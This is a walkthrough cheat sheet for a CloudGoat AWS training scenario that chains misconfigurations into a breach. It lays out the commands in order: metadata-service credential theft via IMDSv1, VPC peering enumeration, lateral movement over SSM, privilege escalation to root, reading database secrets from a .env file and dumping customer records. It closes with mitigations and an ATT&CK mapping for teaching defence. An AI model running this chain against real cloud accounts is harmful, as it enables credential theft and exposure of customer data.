 Cheat Sheet - vpc_peering_overexposed
---

### Stage 1: Assumed Breach & Reconnaissance

---

1. Configure AWS CLI with the provided credentials:

```bash
# Enter the provided Access Key, Secret Key, and region (us-east-1)
aws configure --profile 
```

2. Enumerate EC2 instances to locate potential public targets:

```bash
aws ec2 describe-instances --query "Reservations[*].Instances[*].PublicIpAddress" --output text --profile 
```

3. Discover EC2 instances (look for "Environment=Development" tag):

```bash
# Confirm Dev instance identity using its Environment tag
aws ec2 describe-instances --profile
```

4. You can filter for Dev EC2 instances only (look for "Environment=Development" tag):

```bash
# Confirm Dev instance identity using its Environment tag
aws ec2 describe-instances --filters "Name=tag:Environment,Values=Development" --profile
```

5. Identify VPC configurations and networking:

```bash
# Identify available VPCs to understand the network boundaries.
aws ec2 describe-vpcs --profile 

# Get details on subnets within each VPC to determine where resources (EC2, RDS) might reside.
aws ec2 describe-subnets --profile 

# Analyze route tables to find peering routes that may expose Prod resources to Dev VPC.
# You're looking for routes with destination CIDRs pointing to peered VPCs.
aws ec2 describe-route-tables --profile 
```

6. Connect to the Dev EC2 instance:
    • The CloudGoat scenario automatically generates an SSH key pair (cloudgoat.pem) in the scenario directory. Use it to connect to the Dev EC2 instance:

```bash
# chmod 400 cloudgoat.pem  *# If necessary (on Linux/Mac)*
ssh -i cloudgoat.pem ec2-user@<public-ip-address>
```

### Stage 2: Metadata Credential Theft

---

1. From the Dev EC2 instance (while in SSH session), test if IMDSv1 is enabled:

```bash
# Test if EC2 Metadata Service (IMDSv1) is enabled
curl http://169.254.169.254/latest/meta-data/
```

2. Retrieve the IAM role name attached to the instance:

```bash
# This should return the role name, e.g., "dev-ec2-role-abc123"
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

3. Retrieve the temporary credentials from the metadata service:

```bash
# Replace "dev-ec2-role-abc123" with the actual role name from the previous step
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dev-ec2-role-abc123
```

4. Configure AWS CLI with the stolen credentials:

```bash
# Configure a new AWS CLI profile using the temporary credentials
aws configure --profile 

# Add the session token manually (AWS CLI v2 does not prompt for it)
aws configure set aws_session_token <Token from the metadata output> --profile 


```

5. Verify that you now have elevated permissions:

```bash
aws sts get-caller-identity --profile
```

### Stage 3: VPC Peering Enumeration

---

1. Enumerate VPC peering connections to identify misconfigured network paths:
    • Now that you're using the EC2 instance role, you may see peering connections that weren't visible before and you need to confirm that Dev-to-Prod peering (pcx-xxxxxxxxx) is still active and misconfigured. 

```bash
aws ec2 describe-vpc-peering-connections --profile
```

2. Examine route tables to confirm routing between Dev and Prod VPCs:

```bash
aws ec2 describe-route-tables --profile
```

3. Identify security group configurations that might allow lateral movement:

```bash
aws ec2 describe-security-groups --profile
```

4. Look for EC2 instances in the Prod VPC:

```bash
# Example output showing a Prod EC2 instance: i-0abc123def456789 Note the instance ID:
aws ec2 describe-instances --filters "Name=tag:Environment,Values=Production" "Name=instance-state-name,Values=running" --profile
```

### Stage 4: Lateral Movement via SSM

---

1. Now with the elevated credentials from the Dev EC2 role, check if the Prod instance is SSM-managed:

```bash
aws ssm describe-instance-information --profile
```

2. Start an SSM session to the Prod EC2 instance:

```bash
# Replace i-0abc123def456789 with the actual Prod EC2 instance ID
aws ssm start-session --target i-0abc123def456789 --profile
```

3. Confirm access to the production environment (You should be logged on as the ssm-user):

```bash
# Identify user
whoami
```

4. Switch to root user:

```bash
# Switch user
sudo -i

# Identify user
whoami
```

### Stage 5: Data Access

---

1. Locate database connection details on the Prod EC2:

```bash
# Web configuration file to extract the credentials
cat /var/www/config/.env
```

2. Connect to the MySQL RDS instance using the discovered credentials:

```bash
# Now connect to the MySQL database using these credentials
mysql -h $DB_HOST -u $DB_USER -p$DB_PASSWORD $DB_NAME
```

3. Query sensitive customer data:

```bash
USE customerdb;
SHOW TABLES;
SELECT * FROM customers;
```

**Congratulations! You have successfully completed the scenario by accessing sensitive customer data in the production database. This demonstrates how a series of AWS misconfigurations can lead to unauthorized access to sensitive information.**

## Mitigation Recommendations

---

1. Enforce IMDSv2 on all EC2 instances
    1. Set `HttpTokens` to `required` for all EC2 instances
    2. Implement an AWS Config rule to monitor and enforce this setting
    3. Example: `aws ec2 modify-instance-metadata-options --instance-id i-1234567890abcdef0 --http-tokens required --http-endpoint enabled`
2. Implement least privilege for IAM roles and policies
    1. Remove overly permissive wildcards (`*`) from policy statements
    2. Use AWS Access Analyzer to identify unused permissions
    3. Implement permission boundaries for roles and users
3. Properly segment VPC environments with restrictive peering
    1. Limit route table entries to only required CIDR blocks
    2. Use NACLs in addition to security groups for network segmentation
    3. Consider using AWS Transit Gateway with proper route table configurations for more complex networks
4. Apply proper security group rules
    1. Restrict ingress to specific source IPs/security groups and ports
    2. Avoid overly permissive rules like "0.0.0.0/0"
    3. Use AWS Firewall Manager to enforce security group policies across accounts
5. Implement additional network controls
    1. Use VPC Endpoints for AWS services to avoid traffic over the internet
    2. Implement VPC Flow Logs to monitor network traffic
    3. Consider deploying IDS/IPS solutions like AWS Network Firewall
6. Enable enhanced monitoring and logging
    1. Enable CloudTrail for all AWS API calls
    2. Configure GuardDuty for threat detection
    3. Set up CloudWatch alarms for suspicious activities
    4. Implement real-time alerting for security events

## MITRE ATT&CK Mapping

---

- Initial Access: T1078.004 - Valid Accounts: Cloud Accounts
    - Description: Attackers obtained valid AWS credentials for initial access
- Credential Access: T1552.005 - Unsecured Credentials: Cloud Instance Metadata API
    - Description: Attackers exploited IMDSv1 to steal IAM role credentials
- Discovery: T1580 - Cloud Infrastructure Discovery
    - Description: Attackers used AWS CLI commands to enumerate VPCs, EC2 instances, and networking configurations
- Lateral Movement: T1021 - Remote Services
    - Description: Attackers used AWS Systems Manager (SSM) Session Manager to gain access to the Linux Prod EC2 instance
- Collection: T1005 - Data from Local System
    - Description: Attackers found RDS credentials stored on the Prod EC2 instance

## TELCO Breach Reference

---

The 2021 TELCO breach involved attackers gaining unauthorized access to development environments and eventually making their way to production systems. Key similarities between this scenario and the actual breach include:

1.Initial access to development/testing environments: In both cases, attackers started with access to non-production environments that should have been properly isolated.

1. Exploitation of IAM misconfigurations: In the actual breach, attackers exploited over-permissioned accounts and roles to escalate privileges, similar to the role abuse in this scenario.
2. Network segmentation failures: The real breach involved improper network segmentation between environments, mirrored by the misconfigured VPC peering in this scenario.
3. Access to sensitive customer data: Both the real breach and this scenario culminate in unauthorized access to customer PII, including names, addresses, phone numbers, and other sensitive information.
4. Lateral movement techniques: The attackers in both cases used legitimate administration channels to move between systems.

**By understanding how the attack techniques in this scenario map to the real-world breach, security professionals can better understand how to implement proper preventative controls in their own environments.**